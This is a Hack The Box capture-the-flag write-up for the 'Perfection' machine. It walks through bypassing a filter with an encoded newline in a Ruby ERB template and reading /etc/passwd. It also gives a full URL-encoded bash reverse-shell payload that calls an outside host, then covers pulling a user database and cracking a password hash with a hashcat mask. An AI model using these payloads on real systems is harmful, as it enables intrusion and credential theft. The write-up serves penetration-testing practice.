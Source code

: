 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.
- Identify potential passwords using hashcat (based on password format).

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```


19. Noticed there is a directory named **Migration**, inside it there's a DB file.
20. Let's exfiltrate it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42b76616-2e24-4ece-be1c-57796d68e866)


21. In linux we can open it using **DB Browser**.
22. Found one table named **users**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45d1b888-4f6f-472b-8d28-5b89ee6da68f)


> Found few creds inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7678f31-8e03-4568-b1e6-e25ad421ce93)


23. The simplest privesc is to crack the susan password's hash. However **john** and **hashcat** failed to crack it.
24. So I dropped linpeas to enumerate potential vuln that could lead to privesc.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d4734e0-37fe-4866-bb8c-7024ff50e240)


25. Interesting, Susan seems not part of any group listed.
26. After checking all the results, finally found what seems to be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1342053d-ac7f-4121-8814-9c3726b1af73)

> Inside /var/mail/susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0aac48f5-7ee1-4f83-891a-35f963b7591f)


27. GREAT! it's indeed our interest now.
28. Since it shows the password pattern, then we can use hashcat to helps us crack it.

```
The password format:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

9 integers between 1 - 1.000.000.000 --> 2 - 999.999.999

RESULT:
susan_nasus_?d?d?d?d?d?d?d?d?d
```

29. Let's use hashcat.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/340119a0-5482-4896-b085-923dbcd8aebd)


30. Since it's identified as SHA-256 we can use **-m 1400**.

```
COMMAND:
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

-m --> mode
-a --> aggresiveness.
```

> RESULT



## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```
